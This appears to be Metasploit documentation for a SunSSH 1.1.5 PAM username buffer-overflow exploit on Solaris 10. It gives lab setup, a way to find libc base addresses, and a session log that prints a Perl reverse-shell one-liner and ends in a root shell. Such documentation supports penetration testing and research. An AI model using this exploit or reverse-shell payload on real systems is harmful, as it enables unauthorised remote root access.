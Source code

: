 ## Vulnerable Application

### Description

This module exploits a stack-based buffer overflow in the Solaris PAM
library's username parsing code, as used by the SunSSH daemon when the
keyboard-interactive authentication method is specified.

Tested against SunSSH 1.1.5 on Solaris 10u11 1/13 (x86) in VirtualBox,
VMware Fusion, and VMware Player. Bare metal untested. Your addresses
may vary.

### Setup

Download and install [Solaris 10u11 1/13
(x86)](https://download.oracle.com/otn/solaris/10/sol-10-u11-ga-x86-dvd.iso)
in VMware or VirtualBox. SunSSH should already be installed and running
when you start the system.

### Adding new targets

To add a new target, you must find the `libc` base address for `sshd`.

```
bash-3.2# pmap $(pgrep -xn sshd) | grep -w libc
FEB80000    1088K r-x--  /lib/libc.so.1
FEC90000      32K rwx--  /lib/libc.so.1
FEC98000       8K rwx--  /lib/libc.so.1
bash-3.2#
```

The `libc` base address for `sshd` is `0xfeb80000` in this example.

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Targets

### 0

`SunSSH 1.1.5 / Solaris 10u11 1/13 (x86) / VMware`

### 1

`SunSSH 1.1.5 / Solaris 10u11 1/13 (x86) / VirtualBox`

## Scenarios

### `SunSSH 1.1.5 / Solaris 10u11 1/13 (x86) / VMware`

```
msf6 > use exploit/solaris/ssh/pam_username_bof
[*] Using configured payload cmd/unix/reverse_perl
msf6 exploit(solaris/ssh/pam_username_bof) > options

Module options (exploit/solaris/ssh/pam_username_bof):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT   22               yes       The target port


Payload options (cmd/unix/reverse_perl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   SunSSH 1.1.5 / Solaris 10u11 1/13 (x86) / VMware


msf6 exploit(solaris/ssh/pam_username_bof) > set rhosts 192.168.1.14
rhosts => 192.168.1.14
msf6 exploit(solaris/ssh/pam_username_bof) > set lhost 192.168.1.7
lhost => 192.168.1.7
msf6 exploit(solaris/ssh/pam_username_bof) > check

[*] Using auxiliary/scanner/ssh/ssh_version as check
[+] 192.168.1.14:22       - SSH server version: SSH-2.0-Sun_SSH_1.1.5 ( service.version=1.1.5 service.vendor=Sun service.product=SSH os.vendor=Sun os.family=Solaris os.product=Solaris os.cpe23=cpe:/o:sun:solaris:- service.protocol=ssh fingerprint_db=ssh.banner )
[*] 192.168.1.14:22       - Scanned 1 of 1 hosts (100% complete)
[*] 192.168.1.14:22 - Cannot reliably check exploitability.
msf6 exploit(solaris/ssh/pam_username_bof) > run

[+] perl -MIO -e '$p=fork;exit,if($p);foreach my $key(keys %ENV){if($ENV{$key}=~/(.*)/){$ENV{$key}=$1;}}$c=new IO::Socket::INET(PeerAddr,"192.168.1.7:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);while(<>){if($_=~ /(.*)/){system $1;}};'
[*] Started reverse TCP handler on 192.168.1.7:4444
[*] Exploiting SunSSH 1.1.5 / Solaris 10u11 1/13 (x86) / VMware
[*] Yeeting cmd/unix/reverse_perl at 192.168.1.14:22
[*] Command shell session 1 opened (192.168.1.7:4444 -> 192.168.1.14:32882) at 2020-11-30 21:26:52 -0600

id
uid=0(root) gid=0(root)
uname -a
SunOS unknown 5.10 Generic_147148-26 i86pc i386 i86pc
```
